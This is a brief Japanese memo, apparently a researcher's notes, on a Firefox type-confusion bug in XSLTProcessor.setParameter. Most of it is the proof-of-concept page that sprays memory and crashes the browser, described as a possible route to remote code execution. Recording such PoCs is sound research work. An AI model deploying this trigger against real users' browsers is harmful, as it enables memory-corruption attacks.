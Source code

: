 # BigInt and Object type confusion vulnerability exploitable via XSLTProcessor setParameter method

https://bugzilla.mozilla.org/show_bug.cgi?id=1603055

XSLTProcessor の SetParameter Methodを介して、悪用可能なBig Int および、Objectタイプの混乱 (type confusion)の脆弱性
（正直）よくわかっていない。




以下、PoCの poc.html を読み込むと、クラッシュが発生する。
これを悪用することで、（曰く）RCEなどに繋がる可能性があるとのこと。

```html
<!DOCTYPE html>
<html>
<head>
<meta http-equiv="content-type" content="text/html; charset=UTF-8"></meta>
<script type="text/javascript">
function main(){
  var arr_vec = new Array(0x10000);
  for(var i = 0 ;i < arr_vec.length;i++)
  {
    arr_vec[i] = new ArrayBuffer(0x100);
  }
  alert("wait attach");
  var arr = [0x41414141]
  var mXSLTProcessor = new XSLTProcessor();
  arr.length = (12);
  var bigUint64Arr  = new BigUint64Array(new ArrayBuffer(0x100));
  bigUint64Arr[1] = BigInt(0x4242424242424242n);
  arr.__proto__ = bigUint64Arr;
  mXSLTProcessor.setParameter(('e'),('prop'),arr);
}
</script>
</head>
<body onload="main()">
</body>
</html>

```
